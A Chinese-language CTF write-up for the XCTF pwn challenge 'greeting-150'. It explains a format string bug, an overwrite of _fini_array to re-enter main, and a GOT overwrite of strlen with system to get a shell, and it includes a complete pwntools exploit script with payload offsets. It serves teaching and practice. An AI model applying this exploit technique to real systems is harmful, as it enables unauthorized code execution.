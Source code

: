# greeting-150

# 涉及知识

+ 格式化漏洞
+ _fini_array修改

<!--more-->

# 程序分析

## 保护机制

![image.png](https://i.loli.net/2020/05/20/o1ZvqMn6PXRzpsF.png)

保护开启了Canary和NX

## 漏洞分析

![image.png](https://i.loli.net/2020/05/20/h5caQC9nqoi8jl1.png)

漏洞很明显，在箭头处存在字符串漏洞，我们可以实现任意地址修改。但是程序没有循环，我们在修改完一次后，程序就会结束。所以我们需要使程序重新从main处开始执行。

当main函数执行完毕后，会执行_fini_array中的函数，所以可以利用字符串漏洞将_fini_array中写入main入口地址，如此程序就可以再次进入main。那么当我们把strlen的got表修改为system的plt表后，只需要输入/bin/sh就可以获得shell

# EXP

````python
from pwn import *
from LibcSearcher import LibcSearcher
# context.log_level='debug'
sh=process('./xctf')
#sh=remote('111.198.29.45',34936)
elf=ELF('./xctf')
strlen_got=elf.got['strlen']
print hex(strlen_got)
init_fini=0x08049934

#strlen_got ==> system_plt
payload='a'*2+p32(init_fini+2)+p32(strlen_got+2)+p32(strlen_got)+p32(init_fini)
payload+='%2016c%12$hn%13$hn'+'%31884c%14$hn'+'%349c%15$hn'

sh.sendlineafter('name...',payload)
sh.sendline('/bin/sh')
sh.interactive()
````

## 反思

+ 最开始尝试修改strlen的plt表，程序一直存在异常，最后发现是plt表没有写权限。

+ EXP中是将strlen的got表写为system的plt表，但是如果写为system的got表则不成功。这里有一点疑惑，看来得把程序员的自我修养认真看一下。

## 参考

[CSDN](https://blog.csdn.net/qq_42728977/article/details/102880186)
